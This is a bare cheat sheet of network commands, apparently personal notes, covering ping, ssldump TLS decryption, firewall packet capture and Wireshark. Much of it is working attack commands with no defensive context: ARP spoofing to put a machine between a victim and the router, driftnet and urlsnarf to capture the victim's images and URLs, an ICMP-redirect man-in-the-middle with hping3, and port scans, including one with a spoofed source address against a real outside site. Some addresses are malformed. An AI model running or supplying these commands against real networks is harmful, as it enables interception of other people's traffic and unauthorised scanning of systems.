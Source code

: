 #set 5000 byte packet size
ping -l 5000 192.169.42.3 -n 1
#source routing
ping -j 192.169.42.3 8.8.8.8
#source routing  linux-based routers
sysctl -w net.ipv4.conf.<interface>.accept_source_route=1
#FreeBSD (pfSense) 
sysctls net.inet.ip.sourceroute and net.inet.ip.accept_sourceroute
----------------------------------------------------------------------------------------------------
ssldump -A -d -i eth0
ssldump -i le0 port 443
ssldump -i le0 port 443 and host 192.169.42.3
ssldump -Ad -k ~/server.pem -p foobar -i le0 host exch #decrypt traffic to to host exch server.pem and the password foobar
#wget -p https://192.169.42.3/ -O /dev/null
ssldump  port 443 and host 192.169.42.3
----------------------------------------------------------------------------------------------------
#Saving fw monitor logs to a .pcap file to analyse in wireshark
#Use WinSCP to access the Security Gateway and copy the file to your local drive to analyze it in Wireshark
fw monitor -e 'accept (src=10.1.1.1 and dst=20.2.2.2) or (src=20.2.2.2 and dst=10.1.1.1);' -m iIoO -o wireshark.pcap
fw monitor -e 'accept (src=192.167.4.244 and dst=193.140.12.215) or (src=193.140.12.215 and dst=192.167.4.244 );' -m iIoO -o wireshark1.pcap

start Wireshark from the command line.
$ wireshark -r test.pcap

#scenario #1
#machine acts as a router    
sysctl -w net.ipv4.ip_forward=1
arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]
arpspoof -i wlan0 -t 192.000.000.52 192.000.000.1
arpspoof -i [Network Interface Name] -t [Router IP] [Victim IP]
arpspoof -i wlan0 -t 192.000.000.1 192.000.000.52
#listens to network traffic and picks out images from TCP streams it observes
driftnet -i [Network Interface Name]
#sniffs HTTP requests in Common Log Format
urlsnarf -i [Network interface name]

----------------------------------------------------------------------------------------------------
#ICMP redirect MITM attack
/etc/sysctl.conf
net.ipv4.conf.all.accept_redirects = 0
hping3 -I eth0 -C 5 -K 1 -a 10.0.2.2 --icmp-ipdst 8.8.8.8 --icmp-gw 10.0.2.15 --icmp-ipsrc 10.0.2.16

#operating system detection w ICMP packages
hping3 -1 -c 1 –K 58 10.0.2.16 #ICMP scan
hping3 -1 [Target IP Address] -p 80 -c 5 #ICMP scan
hping3 -1 [Target Subnet] --rand-dest -I eth0 #ICMP scan,Entire subnet scan for live host
hping3 -a 10.1.1.1 -p 80 -S www.alibaba.com
hping3 -S 192.168.1.105 -p 80
hping -S 192.168.1.105 -p ++1
hping3 -S 192.168.1.105 -c 100 -p ++1
hping3 -S 192.168.1.105 -c 100 -p 21
hping3 -f 192.168.1.105 -p 80
